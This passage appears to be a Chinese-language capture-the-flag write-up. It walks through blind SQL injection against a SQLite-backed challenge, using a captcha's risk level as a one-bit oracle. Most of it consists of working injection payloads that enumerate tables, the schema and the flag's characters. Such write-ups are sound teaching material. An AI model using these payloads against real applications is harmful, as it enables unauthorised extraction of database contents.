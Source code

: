 ```js
refresh("Simple-1'--")
```

这时发现验证码是纯数字，说明服务器认为这个用户名对应的是低风险用户，注入成功。经过如果是不存在的用户名或者 SQL 错误那么就会按照最高风险生成验证码。也就是说，我们只能每次注入从数据库获取一比特的信息。这就是所谓的 SQL 盲注吧。另外就是，由于我懒得想怎么自动识别这个验证码，所以我就手动注入了，毕竟我又不急嘛。（当然官方题解果然是自动识别验证码的。）

首先来确定是什么数据库。既然是快速写的，那多半是 sqlite 吧。那么我找了一份 [参考资料](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md){: target="_blank" rel="noopener"}，来试一试。

```js
refresh("Simple-1' and length(sqlite_version())>0 --")
```

成功，是 sqlite。接下来就是探测内容了。首先是看看有几张表。

```js
// 探测表的数量是否大于 n
(n)=>refresh(`Simple-1' and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) > ${n} --`)
```

对不同的 n 进行试验，发现一共有两张表。那么来探测一下表名。首先是表名长度。

```js
// 探测第 n 个表的表名长度是否大于 l
(n,l)=>refresh(`Simple-1' and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset ${n}) > ${l} --`)
```

那么第一张表表名长度为 5，第二张表表名长度为 4。合理猜测，是 users 和 flag。来验证一下。

```js
// 探测第 n 个表的表名是否为 s
(n,s)=>refresh(`Simple-1' and (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset ${n}) = '${s}' --`)
```

那么，果然没猜错。那么接下来就是探测表结构了。

```js
// 探测第 flag 表创建时的 SQL 语句长度是否大于 n
(n)=>refresh(`Simple-1' and (SELECT length(sql) FROM sqlite_master WHERE type='table' and tbl_name='flag') > ${n} --`)
// 探测第 flag 表创建时的 SQL 语句从第 f 个字符开始是否为 s 字符串
(s,f)=>refresh(`Simple-1' and (SELECT substr(sql,${f},${s.length}) FROM sqlite_master WHERE type='table' and tbl_name='flag') = '${s}' --`)
```

经过一番探测和猜测，得到了 flag 表的结构

```sql
CREATE TABLE flag (flag text)
```

那么，接下来是探测 flag 的内容了。由于 flag 中可能出现的字符种类很多，所以还需要有更先进的探测方式。

```js
// 探测第 flag 长度是否大于 n
(n)=>refresh(`Simple-1' and (SELECT length(flag) FROM flag) > ${n} --`)
// 探测第 flag 的第 f 个字符的 ACSII 编码是否大于字符 c 的
(c,f)=>refresh(`Simple-1' and (SELECT hex(substr(flag,${f},1)) FROM flag) > hex('${c}') --`)
// 探测第 flag 第 f 个字符开始是否为 s 字符串
(s,f)=>refresh(`Simple-1' and (SELECT substr(flag,${f},${s.length}) FROM flag) = '${s}' --`)
```
